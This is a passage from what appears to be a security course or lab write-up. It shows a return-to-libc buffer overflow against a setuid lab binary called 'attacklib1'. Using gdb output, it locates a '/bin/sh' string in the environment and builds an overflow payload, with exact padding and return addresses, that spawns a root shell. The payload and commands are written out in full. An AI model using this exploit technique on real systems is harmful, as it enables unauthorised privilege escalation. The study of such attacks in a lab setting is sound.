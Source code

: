 ```
0xf7fc6dbc  _environ
0xf7fc6dbc  environ
(gdb) x/s **0xf7fc6dbc
0xffffdc5c:     "_system_type=Linux"
(gdb) x/s **0xf7fc6dbc+1
0xffffdc5d:     "system_type=Linux"
(gdb)
0xffffdc6f:     "SSH_CONNECTION=170.140.151.178 60648 172.18.1.11 22"
(gdb)
0xffffdca3:     "_=/usr/bin/gdb"
```
This is how you figure out the address of the whole environment table. Step through it ad figure out where is the `EVIL` variable stored.
```
(gdb)
0xffffddbc:     "EVIL=/bin/sh"
(gdb) x/s 0xffffddc1
0xffffddc1:     "/bin/sh"
```
Perfect! Now we have an address for `/bin/sh`. Next let's add this to the exploit string. And try it out inside `gdb` first
```
(gdb) run $(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08\xc6\xdd\xff\xff"')
Starting program: /c0re/attacklib1 $(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08\xc6\xdd\xff\xff"')
running as uid = 1030, euid = 1030
$
```
Yes! We spawn a shell!
Now let's try it with the program itself. Note, there is another program with `euid=0` called `attacklib1` so you don't have t worry about the discrepancy between your `uid` and `euid`
```
rwang74@4550866279a6:/c0re$ /c0re/attacklib1 $(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08\xc1\xdd\xff\xff"')
running as uid = 1030, euid = 0 
# whoami
# root
```
Yayyyyy! We exploited a program without inject shellcode!


